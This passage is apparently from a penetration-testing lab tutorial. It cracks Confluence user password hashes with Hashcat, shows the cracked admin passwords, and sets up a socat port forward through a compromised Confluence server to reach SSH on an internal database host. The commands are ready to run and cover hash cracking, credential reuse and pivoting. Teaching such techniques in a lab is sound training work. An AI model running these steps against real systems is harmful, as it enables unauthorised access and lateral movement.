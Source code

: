 > Listing 12 - The contents of the cwd\_user table in the confluence database.

We obtain multiple rows of user data. Each row contains data for a single Confluence user, including their password hash. We will use [_Hashcat_](https://hashcat.net/hashcat/) to try to crack these.

The [Hashcat mode number](https://hashcat.net/wiki/doku.php?id=example_hashes) for _Atlassian (PBKDF2-HMAC-SHA1)_ hashes is _12001_, so we can pass that to the **\-m** mode flag. After copying the hashes into a file called **hashes.txt**, we'll pass this as the first positional argument. We can then pass the **fastrack.txt** password list that's built into Kali as the final positional argument.

```
kali@kali:~$ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt 
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-11th Gen Intel(R) Core(TM) i7-11800H @ 2.30GHz, 2917/5899 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

...

{PKCS5S2}skupO/gzzNBHhLkzH3cejQRQSP9vY4PJNT6DrjBYBs23VRAq4F5N85OAAdCv8S34:P@ssw0rd!
{PKCS5S2}QkXnkmaBicpsp0B58Ib9W5NDFL+1UXgOmJIvwKjg5gFjXMvfeJ3qkWksU3XazzK0:sqlpass123
{PKCS5S2}EiMTuK5u8IC9qGGBt5cVJKLu0uMz7jN21nQzqHGzEoLl6PBbUOut4UnzZWnqCamV:Welcome1234
...
```

> Listing 13 - Hashcat having cracked the database\_admin, hr\_admin and rdp\_admin account hashes.

It appears that the password policy for this Confluence instance isn't very strong. After only a few minutes of cracking, Hashcat returns passwords for the _database\_admin_, _hr\_admin_ and _rdp\_admin_ users.

We might suspect that these passwords are reused in other places throughout the network. After some more enumeration of the internal network, we'll find PGDATABASE01 is also running an SSH server. Let's try these credentials against this SSH server. With our new port forwarding skill, we can create a port forward on CONFLUENCE01 that will allow us to SSH directly from our Kali machine to PGDATABASE01.

First, we need to kill the original Socat process listening on TCP port 2345. We'll then create a new port forward with Socat that will listen on TCP port 2222 and forward to TCP port 22 on PGDATABASE01.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
</bin$ socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22 

```

> Listing 14 - Creating a new port forward with Socat to access the SSH service on PGDATABASE01.
